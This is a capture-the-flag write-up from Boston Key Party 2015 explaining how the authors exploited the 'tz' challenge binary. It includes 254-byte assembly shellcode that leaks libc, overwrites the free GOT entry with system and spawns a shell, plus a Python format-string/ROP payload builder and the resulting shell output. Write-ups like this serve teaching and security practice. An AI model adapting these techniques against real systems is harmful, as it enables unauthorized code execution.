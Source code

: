 ```yaml
---
title: 'braintree (tz)'
author:
  - Brian Pak (Cai)
layout: post
excerpt_separator: <!--more-->
categories:
  - Pwn
ctf: Boston Key Party
year: 2015
---
```

This is a write-up for **braintree** challenge, which is the last part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read this content from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-braintree-tz-write-up/)_.
<!--more-->

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (tz flag) 54.165.91.92 8899

The goal is to get "tz" flag by exploiting the kernel space process.

_If you haven't read the previous write-up for quincy-adams, I strongly recommend you to read before continuing with this one as we will assume knowledge gained from it._

As it was mentioned previously, we will be using the same primitive: **hypercall #92**.

Therefore, we have an arbitrary-write-anywhere primitive. So, the question is "what can we overwrite in **tz** that will get us an arbitrary code execution?"

We started looking at each of the hypercall handlers in **tz**.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="braintree" %}

Then, we stumbled upon hypercall #85.

This function seemed like some sort of cleanup (we called it **delete_op** in our shellcode) function for an object used in **tz**. (As I said previously, we didn't do much of reversing on **tz** as we did for **uspace** and **kspace**)

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/tz_0.png" lightbox="braintree" %}

It seems like the first argument (v3) is a word that represents id of some sort, but the important thing is that we can control its value. v2 is an offset to the tz data structure, and the value at **tz_space + v2 (where v2 is 0)** is 0.

Since NX is enabled on **tz**, we decided to overwrite the GOT entry to execute **system**. Since the addresses are randomized, we first need to leak an address to calculate the address of system. We are going to abuse the hypercall #92 to do 3 things:

  * Leak out libc address, so we can calculate the address of system.
  * Overwrite **free** (.got.plt in tz) with &system.
  * Overwrite contents in **v4 + 8** (aka, tz_space + 8) with a pointer to our command buffer.

However, doing all of these comes with a price. The size limit (256 bytes) starts to become an issue here. We can either put another stager in the middle to allow us more space, or optimize our payload such that it fits under 256 bytes! We chose to do latter :p

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

; yay we are in kernel!!!
; optimizing for size...
mov ebp, 0x8

; leak out &getpwnam
mov eax, 0x402380       ; do_encrypt
mov edi, 0x602290       ; src (getpwnam .got.plt in tz)
mov rsi, [rel dst]      ; dst (kernel_space + 128)
mov edx, ebp            ; size
call rax

call sleep

; update the address (to be &system) and
; xor the address back with the key
mov rcx, [rel dst]
mov rax, [rcx]
xor rax, [rel xor_key]
sub rax, 0x79340        ; &getpwnam - &system (this may be different depending on libc)
xor rax, [rel xor_key]
mov [rcx], rax

; overwrite free GOT
mov eax, 0x402380       ; do_encrypt
mov rdi, [rel dst]      ; src (kernel_space + 128)
mov esi, 0x602230       ; dst (free .got.plt in tz)
mov edx, ebp            ; size
call rax

call sleep

mov rax, [rel command]  ; encrypt our command pointer
xor rax, [rel xor_key]
push rax

; overwrite [fake_obj + 8] with cmd pointer
mov eax, 0x402380       ; do_encrypt
mov rdi, rsp
mov rsi, [rel fake]
mov edx, ebp            ; size
call rax

call sleep

; setting command to 'sh'
mov rcx, [rel command]
mov dword [rcx], 0x6873

; hypercall to trigger free
; sem_lock
mov ebp, [0x60338C]     ; semaphore
mov edi, ebp
xor esi, esi
mov eax, 0x4015D0
call rax

xor rcx, rcx
mov rax, [0x603360]     ; kernel_space
mov dword [rax], 85     ; delete_op hypercall
mov [rax + 8], rcx      ; 0
lea rdx, [rax + 48]     ; rax + 48 points to args
mov [rax + 16], rdx

mov word [rax + 48], 0  ; id

; sem_unlock
mov edi, ebp
xor esi, esi
mov eax, 0x401600
call rax

call sleep

sleep:
; sleep(1)
mov eax, 0x400D00
xor edi, edi
inc edi
jmp rax

dst:
dq 0x900000080         ; scratch pad in kernel_space
fake:
dq 0x100000008         ; tz_space + 8
xor_key:
dq 0x7473656c72616863
command:
dq 0x900001000         ; we will put our command here
{% endhighlight %}
<br />

At first, we were over ~10 bytes, but once we have "optimized" a little bit, we finally got our payload to be 254 bytes!

Note that we are not using the same shell.asm as before (our new payload is now called shell.asm). However, we can continue to use the same stage1.asm and the python script from **kspace** exploit. For convenience sake, it is also attached here.

<p class="filename">pwn_tz.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ ls -l shell.bin
-rw-rw-r-- 1 user user 254 Mar 4 21:58 shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_tz.py
$ (cat ../tz/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
tz
{% endhighlight %}
<br />

We have abused the hypercall #92 (encrypt) to exploit both kspace and tz, but there may be another way to exploit kspace without going through the hypervisor.

Well, that's it for the 3-parts pwnable challenge write-up =)

Thank you for reading, and happy hacking!

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]